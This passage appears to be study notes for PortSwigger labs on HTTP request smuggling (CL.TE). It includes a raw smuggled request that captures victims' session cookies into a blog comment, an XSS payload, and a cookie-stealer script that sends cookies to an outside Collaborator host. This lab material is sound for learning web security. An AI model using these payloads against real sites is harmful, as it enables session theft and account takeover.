 > On the second time the request is send the admin portal is returned in response.

[PortSwigger Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te)

#### CL.TE multiCase - Content-Length

> Large Content-Length to capture victim requests. Sending a POST request with smuggled request but the content length is longer than the real length and when victim browse their cookie session value is posted to blob comment. Increased the comment-post request's Content-Length to **798**, then smuggle POST request to the back-end server.

```html
POST / HTTP/1.1
Host: TARGET.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 242
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 798
Cookie: session=HackerCurrentCookieValue

csrf=ValidCSRFCookieValue&postId=8&name=c&email=c%40c.c&website=&comment=c
```

> No new line at end of the smuggled POST request above^^.

> View the blog **post** to see if there's a comment containing a user's request. Note that once the victim user browses the target website, then only will the attack be successful. Copy the user's Cookie header from the blog post comment, and use the cookie to access victim's account.

[PortSwigger Lab: Exploiting HTTP request smuggling to capture other users' requests](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)

#### CL.TE multiCase - User-Agent Cookie Stealer

> _**Identify**_ the UserAgent value is stored in the GET request loading the blog comment form, and stored in **User-Agent** hidden value. Exploiting HTTP request smuggling to deliver reflected XSS using **User-Agent** value that is then placed in a smuggled request.

> Basic Cross Site Scripting Payload escaping out of HTML document.

```JavaScript
 "/><script>alert(1)</script>
```

> COOKIE STEALER Payload.

```JavaScript
a"/><script>document.location='http://Collaborator.com/?cookiestealer='+document.cookie;</script>
```

> Smuggle this XSS request to the back-end server, so that it exploits the next visitor. Place the XSS cookie stealer in **User-Agent** header.
